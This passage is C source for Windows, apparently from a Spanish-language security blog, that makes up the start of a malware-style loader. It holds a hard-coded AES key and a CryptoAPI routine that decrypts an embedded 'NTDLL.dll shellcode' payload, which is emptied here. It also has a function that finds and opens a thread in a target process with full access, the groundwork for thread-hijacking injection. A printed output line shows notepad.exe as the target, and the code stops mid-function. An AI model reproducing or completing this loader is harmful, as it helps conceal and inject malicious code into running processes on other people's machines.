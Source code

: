 ```c
#include <winternl.h>
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>




// NTDLL.dll shellcode 
unsigned char payload[] = {//quito la DLL encriptada porque el tamaño me revienta el repositorio y por tanto la web  ya he explicado como se hace};
unsigned char key[] = { 0x3e, 0x9, 0xd2, 0xd6, 0x11, 0xe1, 0xa1, 0x3b, 0xe5, 0x44, 0xea, 0x2b, 0x45, 0x2e, 0x17, 0xf };


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;

        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                        return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                        return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                        return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                        return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
                        return -1;
        }
        
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        
        return 0;
}
HANDLE FindThread(int pid){
	printf("[FindThread] for pid %d \n", pid);
	HANDLE hThread = NULL;
	THREADENTRY32 thEntry;
	thEntry.dwSize = sizeof(thEntry);
    HANDLE Snap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
	while (Thread32Next(Snap, &thEntry)) {
		//printf("[FindThread] : %d \n", thEntry.th32OwnerProcessID);
		if (thEntry.th32OwnerProcessID == pid) 	{
			printf("[FindThread] ProcessId: %d Thread %d \n", thEntry.th32OwnerProcessID, thEntry.th32ThreadID);
			hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID);
			break;
```

[FindProcess]: Process Found notepad.exe : PID 3584